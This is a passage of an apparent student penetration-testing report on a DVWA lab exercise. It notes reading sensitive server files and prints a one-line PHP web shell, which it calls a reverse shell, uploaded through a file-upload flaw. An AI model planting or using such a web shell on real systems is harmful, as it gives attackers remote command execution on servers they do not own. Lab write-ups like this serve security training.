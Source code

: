 ![ScreenShot](https://raw.githubusercontent.com/Shubhk0/cyart-vapt-team/refs/heads/main/week2/Practical/screenshots/Capstone%20Project%20Full%20VAPT%20Cycle-1755857502970.jpeg)
observation : able to read sensitive files from the dvwa server.

#### File Upload Exploitation

I uploaded a PHP reverse shell:

PHP

```
<?php system($_GET['cmd']); ?>
```

![[Capstone Project Full VAPT Cycle-1755857743092.jpeg]]